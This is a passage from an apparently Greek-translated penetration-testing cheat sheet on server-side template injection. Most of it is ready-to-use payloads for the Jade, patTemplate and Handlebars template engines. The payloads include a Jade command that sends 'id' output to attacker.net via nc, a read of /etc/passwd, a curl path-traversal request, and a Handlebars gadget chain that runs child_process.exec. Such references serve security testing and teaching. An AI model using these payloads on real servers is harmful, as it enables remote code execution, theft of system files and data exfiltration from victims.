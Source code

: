 * [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#phplib-and-html\_template\_phplib](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#phplib-and-html\_template\_phplib)

### Jade (NodeJS)
```javascript
- var x = root.process
- x = x.mainModule.require
- x = x('child_process')
= x.exec('id | nc attacker.net 80')
```

```javascript
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```
**Περισσότερες πληροφορίες**

* Στην ενότητα Jade του [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jade--codepen](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jade--codepen)

### patTemplate (PHP)

> [patTemplate](https://github.com/wernerwa/pat-template) μη-συμπληρωματική μηχανή templating PHP, που χρησιμοποιεί XML tags για να διαιρέσει ένα έγγραφο σε διάφορα μέρη
```xml
<patTemplate:tmpl name="page">
This is the main page.
<patTemplate:tmpl name="foo">
It contains another template.
</patTemplate:tmpl>
<patTemplate:tmpl name="hello">
Hello {NAME}.<br/>
</patTemplate:tmpl>
</patTemplate:tmpl>
```
**Περισσότερες πληροφορίες**

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#pattemplate](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#pattemplate)

### Handlebars (NodeJS)

Path Traversal (περισσότερες πληροφορίες [εδώ](https://blog.shoebpatel.com/2021/01/23/The-Secret-Parameter-LFR-and-Potential-RCE-in-NodeJS-Apps/)).
```bash
curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"profile\":{"layout\": \"./../routes/index.js\"}}' 'http://ctf.shoebpatel.com:9090/'
```
* \= Σφάλμα
* ${7\*7} = ${7\*7}
* Τίποτα
```java
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
```